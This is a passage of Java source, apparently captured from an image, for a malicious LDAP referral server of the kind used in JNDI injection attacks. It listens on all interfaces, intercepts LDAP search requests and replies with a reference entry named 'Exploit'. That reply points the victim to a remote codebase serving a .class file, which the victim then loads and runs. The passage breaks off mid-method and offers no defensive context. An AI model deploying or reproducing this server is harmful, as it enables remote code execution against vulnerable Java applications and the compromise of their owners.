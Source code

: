 ```java
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen",
                    InetAddress.getByName("0.0.0.0"),
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(url)));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port);
            ds.startListening();

        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;


        /**
         *
         */
        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }


        /**
         * {@inheritDoc}
         *
         * @see com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor#processSearchResult(com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult)
         */
        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }

        }


        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "Exploit");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
```